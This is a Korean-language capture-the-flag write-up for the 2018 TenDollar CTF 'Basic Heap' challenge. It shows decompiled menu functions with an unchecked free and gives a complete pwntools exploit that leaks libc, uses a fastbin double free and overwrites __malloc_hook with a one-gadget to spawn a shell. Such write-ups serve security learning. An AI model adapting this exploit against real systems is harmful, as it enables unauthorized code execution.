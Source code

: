 ```yaml
---
title: "2018 TenDollar CTF Basic Heap"
date: 2020-2-14
ctf: TenDollar CTF
layout: post
---
```


보호기법은 다 걸려있다.

```
[*] '/vagrant/ctfs/2018_TDCTF/pwnable/basic_heap/basicheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

malloc해주는 곳인데 원하는 사이즈만큼 자유자재로 할당할 수 있고 개수는 상관없다.

```c
unsigned __int64 sub_980()
{
  int v0; // ebx
  int v2; // [rsp+4h] [rbp-1Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-18h]

  v3 = __readfsqword(0x28u);
  puts("Input Length");
  _isoc99_scanf("%d", &v2);
  v0 = count;
  note[v0] = malloc(v2);
  puts("Input Memo!");
  read(0, note[count], v2);
  ++count;
  puts("Create Note Done.\n");
  return __readfsqword(0x28u) ^ v3;
}
```

free해주는 메뉴인데 원하는 인덱스의 주소를 free해줄 수 있다. 별도의 검사도 없다.

```c
unsigned __int64 sub_AD2()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  puts("Choose Note");
  _isoc99_scanf("%d", &v1);
  free(note[v1]);
  puts("Delete Note Done.\n");
  return __readfsqword(0x28u) ^ v2;
}
```

원하는 인덱스의 청크의 내용을 볼 수 있다.

```c
unsigned __int64 sub_A59()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  puts("Choose Note");
  _isoc99_scanf("%d", &v1);
  puts(note[v1]);
  return __readfsqword(0x28u) ^ v2;
}
```

fastbin dup에 이용하기 위해 fastbin 2개 생성하고 small bin을 생성한 후 fastbin을 하나 더 생성해서 top chunk와 병합되지 않게한 후 small bin을 free후 leak한 후 libc주소 구해주고 __malloc_hook-35 위치에 fake chunk을 생성해서 fastbin dup으로 oneshot주소로 덮어준 후 malloc 해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./basicheap')
p = process('./basicheap')
libc = e.libc
s = lambda x : p.send(x)
sl = lambda x : p.sendline(x)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def create(length,content):
	sla('4. Quit\n','1')
	sla('Input Length\n',str(length))
	sa('Input Memo!\n',content)

def show(index):
	sla('4. Quit\n','2')
	sla('Choose Note\n',str(index))

def delete(index):
	sla('4. Quit\n','3')
	sla('Choose Note\n',str(index))

def quit():
	sla('4. Quit\n','4')

create(0x60,'AAAA')
create(0x60,'BBBB')
create(180,'CCCC') # unsorted bin attack
create(0x60,'DDDD')

delete(2)
show(2)

main_arena = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00')
log.info('main_arena : {}'.format(hex(main_arena)))
libc_base = main_arena - 0x3c4b78
log.info('libc_base : {}'.format(hex(libc_base)))
malloc_hook = libc_base + libc.symbols['__malloc_hook']
log.info('__malloc_hook : {}'.format(hex(malloc_hook)))
oneshot = libc_base + 0xf1147
log.info('oneshot : {}'.format(hex(oneshot)))

create(180,'EEEE')

# fastbin dup
delete(0)
delete(1)
delete(0)

create(0x60,p64(malloc_hook-35)) # fake chunk
create(0x60,'FFFF')
create(0x60,'FFFF')
create(0x60,'A'*19+p64(oneshot))

sla('4. Quit\n','1')
sla('Input Length\n',str(50))

p.interactive()
```

